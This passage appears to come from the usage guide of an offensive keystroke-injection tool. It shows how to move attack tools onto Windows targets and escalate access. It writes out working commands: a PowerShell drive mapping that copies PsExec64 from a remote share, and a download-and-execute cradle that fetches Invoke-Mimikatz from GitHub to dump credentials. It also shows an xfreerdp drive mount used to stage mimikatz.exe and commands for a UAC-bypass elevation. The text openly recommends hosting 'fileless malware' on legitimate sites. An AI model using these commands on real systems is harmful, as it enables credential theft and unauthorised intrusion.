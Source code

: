 Here's another variant for powershell cmdlets when transferring `PsExec64.exe` in Windows.

```
$ cat cmdlets.txt
New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"
Copy-Item z:\PsExec64.exe .
Remove-PSDrive -Name Z

$ rks -c "powershell.exe" -m dialogbox

$ rks -c cmdlets.txt
```

The best way to retrieve fileless malware or offensive tools through powershell is by simply hosting/retrieving legitimate websites such as, `https://github.com` and executing it. Let's use `Invoke-Mimikatz` to retrieve credentials downloading and executing the cradle from [nishang](https://github.com/samratashok/nishang).

```
$ cat hashdump.txt
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds

$ rks -c "powershell.exe" -m dialogbox

$ rks -c hashdump.txt
```

If you have large files that it's nearly impossible to wait for the file transfer to be finished. `xfreerdp` allows to mount a local directory with `/drive:/path/to/directory/` flag. Then navigate the file browser or shell prompt to `\\tsclient\<share_name>\` to view the contents.

```
$ mkdir Tools

$ cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe Tools/

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<tls | rdp | nla> [/d:"<domain_name>"] /u:"<username>" /p:"<password>" /v:<IP>:[<PORT>] /drive:Tools

$ rks -c "cmd.exe" -m dialogbox

$ rks -c "dir \\tsclient\<share_name>\"
```

### 0x04 - Privilege Escalation

Note: WIP (Work In Progress)

```
$ rks -m elevate -s bypassuac -a info

$ rks -m elevate -s <sub_method>
```
